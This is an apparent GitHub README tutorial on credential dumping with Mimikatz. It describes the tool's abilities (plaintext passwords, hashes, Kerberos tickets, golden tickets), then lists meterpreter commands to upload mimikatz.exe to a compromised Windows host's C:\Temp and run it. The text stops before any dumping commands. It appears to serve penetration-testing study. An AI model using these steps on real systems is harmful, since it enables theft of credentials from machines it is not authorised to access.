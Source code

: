 # Credential-Dumping-with-Mimikatz
Credential Dumping with Mimikatz
## Introduction of Mimikatz
Mimikatz is a free and open source program for Microsoft Windows that can be used to obtain information about login credentials. It was developed by Benjamin Delpy and Mr. Slovtsov. Mimikatz can extract plain text passwords, cryptographic hash functions, PIN codes and Kerberos tickets from memory. It can also perform pass-the-hash, pass-the-ticket, create golden tickets, work on certificates or private and protected keys.<br>
<img src="mimi.png" width=70% height="auto"><br><br>

## Credential dumping with Mimikatz
### After obtained an meterpreter sessions, we have to upload in the target machine the file mimikatz.exe
 - cd C:\\
 - mkdir Temp
 - cd Temp
 - upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe <br>
<img src="upload.png" width=70% height="auto"><br><br>
### Execute mimikatz.exe
 - shell
 - .\mimikatz.exe <br>